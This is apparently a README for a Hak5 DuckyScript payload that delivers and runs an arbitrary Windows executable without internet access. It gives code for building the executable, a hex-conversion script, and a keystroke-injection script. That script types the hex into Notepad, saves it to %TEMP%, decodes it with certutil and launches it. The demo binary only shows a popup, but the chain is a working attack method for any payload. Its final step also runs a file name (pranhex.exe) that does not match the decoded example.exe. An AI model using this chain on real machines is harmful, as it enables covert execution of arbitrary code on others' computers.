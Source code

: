 # Example

## File list

- Python code: `example.py`
- Convert to hex script: `convert_to_hex.py`
- Executable file compiled using pyinstaller: `dist/example.exe`
- Hexadecimal code output: `example.hex`
- File compiled from hex code using certutil: `example.exe`

## Procedure

- This Python code create a Windows popup.

```python
import ctypes

ctypes.windll.user32.MessageBoxW(None, "Hello Hak5!", 'Info', 0x10 | 0x1)
```

- Create the executable

```powershell
pyinstaller --onefile C:/Users/Aleff/Documents/Install_And_Run_Any_Arbitrary_Executable-No_Internet_Needed/assets/example.py
```

- Create the hex code

```python
import binascii

def convert_to_hex(filename, output_file):
    with open(filename, 'rb') as file:
        binary_data = file.read()

    hex_code = binascii.hexlify(binary_data).decode()

    with open(output_file, 'w') as output:
        output.write(hex_code)

# Esempio di utilizzo
exe_filename = 'C:/Users/Aleff/Documents/Install_And_Run_Any_Arbitrary_Executable-No_Internet_Needed/assets/dist/example.exe'
output_filename = 'C:/Users/Aleff/Documents/Install_And_Run_Any_Arbitrary_Executable-No_Internet_Needed/assets/example.hex'
convert_to_hex(exe_filename, output_filename)
```

- Create the DuckyScript payload

```duckyscript
GUI r
DELAY 1000
STRINGLN notepad.exe
DELAY 2000
STRING #HEX_CODE
DELAY 2000
ALT F
DELAY 1000
STRING S
DELAY 1000
STRINGLN "%TEMP%\example.hex"
DELAY 1000
ENTER
DELAY 1000
ALT F4
DELAY 2000
GUI r
DELAY 500
STRINGLN certutil -f -decodeHex "%TEMP%\example.hex" "%TEMP%\example.exe"
DELAY 1000
ENTER
DELAY 1000
GUI r
DELAY 250
STRINGLN "%TEMP%\pranhex.exe"
```